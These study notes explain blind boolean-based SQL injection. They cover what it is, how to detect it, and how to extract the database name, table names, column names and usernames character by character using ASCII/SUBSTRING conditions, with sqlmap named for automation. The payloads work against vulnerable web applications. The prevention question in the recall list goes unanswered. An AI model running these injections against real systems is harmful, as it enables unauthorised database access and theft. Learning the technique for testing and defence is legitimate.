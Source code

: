 # 20.sql-injection-blind-boolean-based

13/06/25

## Recall

- What is Blind Boolean-Based SQL Injection?
- Why is this technique used when no output is reflected?
- How does the attacker extract data using true/false conditions?
- What kind of queries are typically used for boolean-based extraction?
- How can developers prevent Blind Boolean-Based SQL Injection?

## Notes

### What it is

**Blind Boolean-Based SQL Injection** is a technique used when an application is vulnerable to SQL Injection but does not return any visible output or error messages to the attacker. Instead of relying on direct responses, the attacker infers information based on how the server behaves when certain injected conditions evaluate to true or false.

By crafting SQL queries that evaluate to either true or false, attackers observe differences in the HTTP response (such as page content, redirection behavior, HTTP status codes, or even response lengths). These observable differences allow the attacker to extract information from the database **bit by bit** (or rather, character by character).

Unlike time-based injection, which relies on server response delays, boolean-based injection depends entirely on the application rendering different content depending on the query result.

### How to identify it

Detection starts with regular SQLi testing:

1. **Initial payloads**:
    
    Test input fields with common payloads:
    
    ```sql
    ' OR 1=1; -- 
    ' UNION SELECT NULL; -- 
    ```
    
    If the server returns different responses (e.g., page loads normally for `1=1` and returns an error or empty page for `1=2`), it may indicate a blind boolean-based injection point.
    
2. **No visible error, but observable behavior changes**:
    
    Sometimes even small differences in page size, content, or structure (headers, HTML body, etc.) can reveal the truth value of a condition.
    
3. **Consistency across multiple tests**:
If the behavior is repeatable across multiple injected true/false conditions, it's a strong indicator.

### How to exploit it

The exploitation process consists of crafting payloads that check specific conditions, and observing how the application responds.

Some of the most common functions used:

- **`SUBSTRING(string, position, length)`**
    
    Extracts substrings to isolate individual characters.
    
- **`ASCII(character)`**
    
    Converts a character to its ASCII value for numeric comparison.
    
- **`LENGTH(string)`**
    
    Retrieves the length of a string.
    
- **`CASE WHEN` or `IF()`**
    
    Conditional evaluation to return different outputs based on truth values.
    

**Payload examples**

Determine database length

```bash
' AND LENGTH(DATABASE())=6 -- 
```

If the response differs when testing different values, you can determine the correct length.
Extract database name character by character:

```bash
' AND ASCII(SUBSTRING(DATABASE(),1,1)) > 100 -- 
```

By incrementally adjusting the value (`100`, `110`, `115`, etc.), you can binary-search the ASCII code for each character.

Suppose you want to extract the first character:

```bash
' AND ASCII(SUBSTRING(DATABASE(),1,1))=116 -- 
```

If the response shows that the condition is true, then the first character is `t` (`ASCII(116)`).

Repeat the process for the next positions:

```bash
' AND ASCII(SUBSTRING(DATABASE(),2,1))=97 -- 
' AND ASCII(SUBSTRING(DATABASE(),3,1))=114 -- 
...
```

Extracting table names:

```bash
' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1), 1, 1))=117 -- 
```

Extracting column names:

```bash
' AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1), 1, 1))=105 -- 
```

Extracting data from table:

```bash
' AND ASCII(SUBSTRING((SELECT username FROM users LIMIT 0,1), 1, 1))=97 -- 
```

In real-world scenarios, attackers automate this entire process using tools like:

- **`sqlmap`** (excellent support for boolean-based blind extraction)
- Custom Python scripts with HTTP requests and binary search logic.

## Summary

**Blind Boolean-Based SQL Injection** is a powerful attack technique that allows data extraction even when the application provides no visible errors or output. The attacker carefully crafts conditional payloads and observes binary responses to infer database content one character at a time.

Though slower than classical SQLi, boolean-based injection remains highly effective against hardened applications that suppress verbose error handling.
